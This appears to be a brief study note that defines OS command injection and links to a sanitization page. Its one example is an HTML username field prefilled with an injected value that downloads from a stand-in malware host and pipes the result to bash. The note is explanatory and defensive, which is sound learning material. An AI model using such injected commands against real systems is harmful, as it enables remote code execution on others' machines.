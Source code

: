 A command injection vulnerability is when you can give input that will be part of some command line command.

So like so:

<label for="username">Username:</label>
<input id="username" value="qqqq; wget https://malware.com | bash" style="width:20rem">

Improper neutralization or [[Input Protections#Sanitization]] of input when feeding into an OS command. 